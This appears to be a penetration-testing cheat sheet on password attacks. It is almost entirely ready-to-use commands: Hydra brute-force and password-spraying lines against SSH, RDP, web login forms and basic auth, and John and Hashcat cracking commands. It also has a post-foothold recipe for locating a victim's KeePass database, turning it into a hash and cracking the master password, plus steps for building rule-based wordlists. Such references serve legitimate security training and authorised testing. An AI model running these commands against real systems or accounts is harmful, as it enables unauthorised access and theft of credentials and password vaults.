 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# 🐈‍⬛ Password attacks

## Online Brute force

### Hydra

Brute forcing `SSH`&#x20;

```bash
hydra -l <username> -P <password_wordlist> -s <ssh_port> ssh://<target>
```

Password spraying `RDP`

```bash
hydra -L <username_wordlist> -p <password> rdp://<target>
```

Brute forcing `website login form`

{% code overflow="wrap" %}
```bash
hydra -l <username> -P <wordlist> <target> http-post-form "/<login_page_route>:<username_paramter>=user&<password_paramter>=^PASS^:<failed_login_string>"
```
{% endcode %}

Brute forcing `basic authentication`

```bash
hydra -l <username> -P <wordlist> <target> http-get
```

## Offline Brute force

### John the ripper

Perform offline hash crack:

```bash
john --wordlist=<wordlist> <hashfile
>
```

### Hashcat

Find hash types:

```
hashcat --help | grep -i "KeePass"
```

Perform offline hash crack:

```
hashcat -m <hash_type> <hash> <wordlist>
```

## Password Manager

In case the foothold is achieved and the victims uses KeePass is possible to offline crack the master password.

Finding the database file on target machine:

```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

Creating a crackable hash using `keepass2john` :

```
keepass2john Database.kdbx > keepass.hash
```

Cracking the hash using hashcat:

```bash
hashcat -m 13400 keepass.hash ~/wordlists/rockyou.txt
```

## Identify the hash

### Hash-Identifier

```
hash-identifier
```

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption><p>hash-identifier</p></figcaption></figure>

### Hashid

```
hashid <hash>
```

<figure><img src="../.gitbook/assets/image (15).png" alt=""><figcaption><p>hashid</p></figcaption></figure>

## Wordlists

Modify wordlists according to target password policy using `Hashcat` and a `rule` file:

{% code title="rulefile.rule" %}
```
rules examples:
$<string> - append the string.
^<string> - prepend the string.
c - capitalize the first character.

rules operations:
rule rule rule - the rules affects each word together.

the rules affects separately and creates more words (1 more word each rule):
rule
rule
```
{% endcode %}

More rule functions:

{% embed url="https://hashcat.net/wiki/?id=rule_based_attack#implemented_compatible_functions" %}
Rule Functions
{% endembed %}

There are commonly rule files in the `Hashcat` directory:

```bash
ls -la /usr/share/hashcat/rules/
```

Create and print the new rule based wordlist

```bash
hashcat -r <rulefile> --stdout <wordlist>
```

### Hashcat

Crack using the new rule based wordlist

```bash
hashcat -m <hash_type> <hash> <wordlist> -r <rulefile> 
```

### John

Create rule file for example:

```
[List.Rules:<rule_name>]
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#
```

Append the rule file into `/etc/john/john.conf`:

```bash
sudo bash -c 'cat <rulefile> >> /etc/john/john.conf'
```

Crack using the new rule based wordlist

```bash
john --wordlist=<wordlist> --rules=<rule_name> <hashfile>
```
